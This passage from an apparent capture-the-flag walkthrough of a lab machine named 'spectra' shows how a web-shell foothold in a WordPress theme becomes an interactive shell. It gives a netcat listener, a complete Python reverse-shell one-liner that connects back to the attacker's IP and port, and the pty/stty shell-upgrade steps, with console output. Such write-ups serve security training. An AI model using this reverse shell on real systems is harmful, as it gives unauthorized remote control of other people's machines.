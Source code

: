 After updating the file we naviagte to it's location and confirm our RCE.

[![RCE.png](/img/spectra/RCE.png)](/img/spectra/RCE.png)

With our PoC working we can now get a reverseshell on the target machine. To do this we first set up our listener on the port we want to recieve the shell on.

```php
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We intercept the webshell request with burp send it to repeater and change the request method. Then we send this python reverse shell to the target using our tun0 ip.

```php
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",7575));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

[![burp_revshell.png](/img/spectra/burp_revshell.png)](/img/spectra/burp_revshell.png)

We get almost an instant callback from the target, upgrade our shell and fix the terminal size.

```php
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.93.40.
Ncat: Connection from 10.129.93.40:37564.
<ginx/html/main/wp-content/themes/twentyseventeen $ python -c 'import pty;pty.spawn("/bin/bash")'
<themes/twentyseventeen $ python -c 'import pty;pty.spawn("/bin/bash")'      
<ginx/html/main/wp-content/themes/twentyseventeen $ export TERM=xterm
export TERM=xterm
 $ ^Z@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen 
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

 $ stty rows 55 cols 236/share/nginx/html/main/wp-content/themes/twentyseventeen 
nginx@spectra /usr/local/share/nginx/html/main/wp-content/themes/twentyseventeen $ 
```
